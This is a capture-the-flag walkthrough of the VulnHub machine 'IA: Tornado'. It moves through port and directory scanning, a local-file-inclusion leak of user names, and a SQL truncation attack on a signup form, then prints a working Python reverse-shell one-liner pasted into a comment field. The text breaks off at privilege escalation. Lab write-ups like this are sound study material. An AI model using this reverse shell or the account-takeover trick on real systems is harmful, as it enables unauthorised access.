

# IA-Tornado

## Overview :
IA: Tornado adalah sebuah mesin CTF dari VulnHub dengan tingkat kesulitan medium, yang dirancang buat nguji kemampuan dalam melakukan web enumeration, file analysis, dan privilege escalation.
Mesin ini cocok buat lu yang udah paham dasar-dasar pentesting dan pengen naik level ke teknik yang lebih advanced.

## Objective :
- Perform scanning and enumeration to identify active services and entry points.
- Exploit the discovered vulnerabilities to gain access to the system.
- Perform privilege escalation until you get root access.
- Guess some passwords to log in as root.

## The Hack :
As usual, the first thing we do is find the target IP by scanning the machines on the network we are using, using tools like netdiscover , Angry IP , etc. Here I am using netdiscover, so let's get started.
```
sudo netdiscover
```


The IP address 192.168.0.108 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.108
```


The nmap scan results show that there are several ports running, because port 80 is open, which means the server is running a website, let's take a look.


As usual, the book is empty and has no meaning, so let's immediately carry out a deeper enumeration using a tool like Gobuster.
```
gobuster dir -u http://192.168.0.108/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```


Yep. Look... I found the /bluesky directory. Let's take a look.


Wow. The sky looks beautiful, but the information isn't. Let's try running gobuster again, but this time add a /bluesky entry and see what we get.
```
gobuster dir -u http://192.168.0.108/bluesky -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```


signup.php? Hmm... Let's check that out.


Yes this is the page to create an account, let's try to create an account with random credentials and see what we get in it.


After registering and logging in to /bluesky/login.php, I was presented with a dashboard. Let's examine each one.


So, when I click on the CONTACT entry, it doesn't work and doesn't display much other than LFI instructions. After testing, I found no LFI vulnerabilities.

While examining the source code of the web page, we noticed one out-of-place comment on the portfolio.php page.


This LFI seems plausible. After some thought and testing, nothing happened. But why don't we try viewing the page at http://192.168.0.108/~tornado/imp.txt?


YES! I'm getting multiple users. I've also tried creating accounts in /bluesky/signup.php with all the same users, but to no avail. Also, all email addresses are already registered. I was about to give up, but I finally realized the vulnerability thanks to the inspect element.

So... if we go to the /bluesky/signup.php page and create an account with a random email, the email can't be more than a few characters long. So I inspected the element and lo and behold!!!


Yes, that's the problem. The maximum length is "13"? That seemed odd, so I found this CVE. It's a SQL Truncation attack. We can access it by changing the email length parameter, inserting the email we found with LFI, and then adding our previously registered email. In this case, the system thinks I'm logged in with the account "rose@wht.com", but I'm not! I can log in with all the other users!



Change that value to 35 or higher as you wish! Now I need to find a user who can use "contacts" and I found one!


It worked! And now I can access the /bluesky/login.php page with jacob@tornado and finally access the previously blocked "contacts" entry!


Since this is a potential LFI vulnerability, I'll now try writing a payload to get a shell. I'll try using this payload:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Copy this and paste it into the comment field. Before you click "comment," it's a good idea to open a new terminal and use netcat to get a reverse connection.


YES IT LOOKS GOOD AND I'M IN! Next type sudo -l to see if I can log in as root
